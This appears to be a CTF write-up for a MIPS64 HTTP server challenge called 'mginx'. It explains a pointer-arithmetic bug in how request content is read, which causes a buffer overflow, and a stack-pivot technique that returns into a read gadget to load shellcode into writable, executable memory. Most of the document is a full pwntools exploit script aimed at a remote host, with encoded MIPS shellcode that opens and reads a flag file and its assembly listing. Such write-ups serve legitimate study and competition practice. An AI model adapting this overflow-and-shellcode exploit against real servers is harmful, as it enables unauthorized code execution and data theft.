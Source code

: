 ### mginx

The binary is a http server of mips64 architecture, which receives our http requests and give responses. The logic is quite simple, and the server only parses several params in the header.

#### vuln

A problem exists when we concatenate the content data after the header. The code is like this:

```c
content_ptr = header_ptr + header_len;
while ((content_len != 0 && (read_sz = read(0, content_ptr, content_len), 0 < read_sz))) {
    content_ptr = content_ptr + (int)content_len;   // wrong
    content_len = content_len - read_sz;
}
```

As we can see, `content_ptr` should add `read_sz` rather than `content_len`. As a result, we can send small data to trigger large span of `content_ptr`, thus to cause buffer overflow.

#### rop

The binary is dynamically linked and remote environment has ASLR opened, so we need to use some gadgets in the binary. 

One possible way is to leak library address and call library functions. However, it requires a long and subtle chain, and the useful gadgets in the binary is few. I didn't choose this way.

Instead, I managed to jump back and trigger stack pivot. Because of the overflow, we can easily control values of `gp`, `ra` and `s8/fp`. I change `fp` info some address on .bss section, and `ra` back to here:

```assembly
.text:00000001200018C4 loc_1200018C4:                           # CODE XREF: main+510↓j
.text:00000001200018C4                                          # main+51C↓j ...
.text:00000001200018C4                 daddiu  $v0, $fp, 0x88
.text:00000001200018C8                 li      $a2, 0x1000      # nbytes
.text:00000001200018CC                 move    $a1, $v0         # buf
.text:00000001200018D0                 move    $a0, $zero       # fd
.text:00000001200018D4                 dla     $v0, read
.text:00000001200018D8                 move    $t9, $v0
.text:00000001200018DC                 jalr    $t9 ; read
.text:00000001200018E0                 nop
```

Thus, we can read our new http header / content in the .bss section, which is RWX. We can read our shellcode on it, and do overflow again to control pc there. 

#### exploit

```python
from pwn import *
context.arch = 'mips64'
context.endian = 'big'
context.log_level = "debug"
context.terminal = ['tmux', 'split', '-h']

if not args['REMOTE']:
    r = process(["qemu-mips64", "./mginx"])
    #r = process(["qemu-mips64", "-g", "1234", "./mginx"])
else:
    r = remote("124.156.129.96", 8888)

read_gadget = 0x1200018C4
bss         = 0x120012800

def senddata(data):
    sleep(0.1)
    r.send(data)

###############################
h = "GET / HTTP/1.1\r\n"
h += "Connection: not-keep-alive\r\n"
h += "Content-Length: 512"
h = h.ljust(0x250-4, 'a')
h += "\r\n\r\n"

sh = 'b'*(0x1e0-1)
sh += p64(0x000000012001a250)       # gp 
sh += p64(bss)                      # s8 / fp
sh += p64(read_gadget)              # ra
sh = sh.ljust(0x200-6, 'x')

senddata(h)
for i in range(6):
    senddata('a')
senddata(sh)

###############################

h = "GET / HTTP/1.1\r\n"
h += "Connection: not-keep-alive\r\n"
h += "Content-Length: 512"
h = h.ljust(0x250-4, 'a')
h += "\r\n\r\n"

data = 'x'*7
#data += "<\x0c/b5\x8cin\xaf\xac\xff\xf4<\r/s5\xadh\x00\xaf\xad\xff\xf8\xaf\xa0\xff\xfcg\xa4\xff\xf4(\x05\xff\xff(\x06\xff\xff$\x02\x13\xc1\x01\x01\x01\x0c))"
data += "<\r/f5\xadla\x00\rl85\xadg\x00\x00\rl8\xff\xad\x00\x00\x03\xa0 %\x00\xa5(&\x00\xc60&$\x02\x13\x8a\x00'u\x0c\x00@ %\x03\xa0(%$\x06\x00P$\x02\x13\x88\x00'u\x0c$\x04\x00\x01\x03\xa0(%$\x06\x00P$\x02\x13\x89\x00'u\x0c"
data = data.ljust(0x200-6-8-3, '\x00')
data += p64(0x00000001200136d0)
data = data.ljust(0x200-6, 'x')

senddata(h)
for i in range(6):
    senddata('a')
senddata(data)

r.interactive()

###############################

""" orw shellcode
dli $t1, 0x2f666c6167000000
sd $t1, ($sp)
move $a0, $sp
xor $a1, $a1, $a1
xor $a2, $a2, $a2
li $v0, 0x138a
syscall 40404
move $a0, $v0
move $a1, $sp
li $a2, 0x50
li $v0, 0x1388
syscall 40404
li $a0, 1
move $a1, $sp
li $a2, 0x50
li $v0, 0x1389
syscall 40404
"""
```
